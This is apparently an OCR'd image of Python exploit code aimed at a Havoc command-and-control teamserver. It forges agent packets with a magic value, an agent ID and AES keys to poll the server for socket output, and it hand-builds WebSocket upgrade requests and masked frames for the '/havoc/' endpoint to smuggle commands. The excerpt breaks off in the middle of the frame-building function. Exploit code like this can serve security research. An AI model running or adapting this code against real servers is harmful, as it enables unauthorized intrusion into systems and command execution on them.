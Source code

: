 ```


def read_socket(socket_id):
    # COMMAND_GET_JOB / 1
    command = b"\x00\x00\x00\x01"
    request_id = b"\x00\x00\x00\x09"

    header_data = command + request_id

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    data = agent_header + header_data


    print("[***] Trying to poll teamserver for socket output...")
    r = requests.post(teamserver_listener_url, data=data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Read socket output successfully!")
    else:
        print(f"[!!!] Failed to read socket output - {r.status_code} {r.text}")
        return ""


    command_id = int.from_bytes(r.content[0:4], "little")
    request_id = int.from_bytes(r.content[4:8], "little")
    package_size = int.from_bytes(r.content[8:12], "little")
    enc_package = r.content[12:]

    return decrypt(AES_Key, AES_IV, enc_package)[12:]

def make_request(host, port):
    request = (
        f"GET /havoc/ HTTP/1.1\r\n"
        f"Host: {host}:{port}\r\n"
        f"Upgrade: websocket\r\n"
        f"Connection: Upgrade\r\n"
        f"Sec-WebSocket-Key: 5NUvQyzkv9bpu376gKd2Lg==\r\n"
        f"Sec-WebSocket-Version: 13\r\n"
        f"\r\n"
    ).encode()
    return request

def frame_generator(payload):
    if not isinstance(payload, str):
        raise ValueError("Payload must be a string")

    payload_bytes = payload.encode("utf-8")
    frame = bytearray()
    frame.append(0x81)  # FIN + Text frame opcode

    payload_length = len(payload_bytes)

    if payload_length <= 125:
        frame.append(0x80 | payload_length)  # Set masking bit
    elif payload_length <= 65535:
        frame.append(0x80 | 126)  # Set masking bit for extended payload
        frame.extend(struct.pack('!H', payload_length))
    else:
        frame.append(0x80 | 127)
        frame.extend(struct.pack('!Q', payload_length))

    masking_key = os.urandom(4)
```